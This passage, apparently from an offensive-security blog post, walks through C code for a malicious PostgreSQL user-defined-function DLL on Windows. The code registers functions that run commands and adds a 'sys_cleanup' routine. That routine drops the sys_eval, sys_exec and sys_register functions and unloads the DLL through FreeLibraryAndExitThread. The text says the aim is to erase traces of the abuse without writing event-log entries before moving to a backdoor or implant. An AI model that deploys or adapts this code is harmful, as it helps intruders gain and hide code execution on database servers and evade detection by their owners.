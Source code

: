 ```c
		elog(NOTICE, "[sys_register] Command:\n%s", regcmd);
		ret = SPI_exec(regcmd, 0);

		free(regcmd);

		SPI_finish();
		result = 1;
	}
	PG_RETURN_INT32(result);
}
...
```
*Source: [main.c][7]*

#### Poly is leaving: sys_cleanup()
Every story has to end, even for Poly. When we have done all the required tasks as information gathering and lateral movement, remember UDF is a mechanism to achieve the first RCE, we will use it to move to another more flexible and persistent mechanism as a backdoor or implant. To leave no trace nor clue about our abuse of the PostgreSQL we need to delete the functions and the DLL file. PostgreSQL keeps the module loaded on memory even when no function is registered, normaly we will need to restart the service to be able to delete the files, but we don't want to leave that event in the event log. We need to unload the module from memory and end execution, this will be almos imposible as the DLL unloading requires unmap the memory where is our code. We are not the only ones that requires this kind of functionality and Windows API have the answer! [*FreeLibraryAndExitThread*][10], we will use it to decrement de module count so the Windows will unmap the DLL from memory and release the lock of the file. We cannot do it from inside the called function because it will generate a crash, the *FreeLibraryAndExitThread* does not returns and the PostgreSQL expects every function it calls to return safely. To avoid this restriction we will use a Thread that will sleep for a second and then call [*FreeLibraryAndExitThread*] to unload and unmap the DLL and allow us to delete the DLL file!
```c
/*
UDF that use SPI to unload DLL module for allowing deleting it from disk. It will also drop all the UDFs in the DLL if @dropFn is true.
@dropFn flag to enable UDFs unregistering.
*/
PGDLLEXPORT Datum sys_cleanup(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(sys_cleanup);
Datum sys_cleanup(PG_FUNCTION_ARGS) {
	int result;
	result = 0;
	bool dropFn = PG_GETARG_BOOL(0);

	// Reference: https://www.postgresql.org/docs/9.0/spi-examples.html
	if (dropFn && SPI_connect() == SPI_OK_CONNECT) {
		int ret;

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_register");
		ret = SPI_exec((LPCSTR)"drop function sys_register()", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_eval");
		ret = SPI_exec((LPCSTR)"drop function sys_eval(text)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_exec");
		ret = SPI_exec((LPCSTR)"drop function sys_exec(text)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);

		elog(NOTICE, "[sys_cleanup] Going to DROP sys_cleanup");
		ret = SPI_exec((LPCSTR)"drop function sys_cleanup(bool)", 0);
		elog(NOTICE, "[sys_cleanup] SPI_exec returnet %d", ret);
		SPI_finish();
		result = 1;
```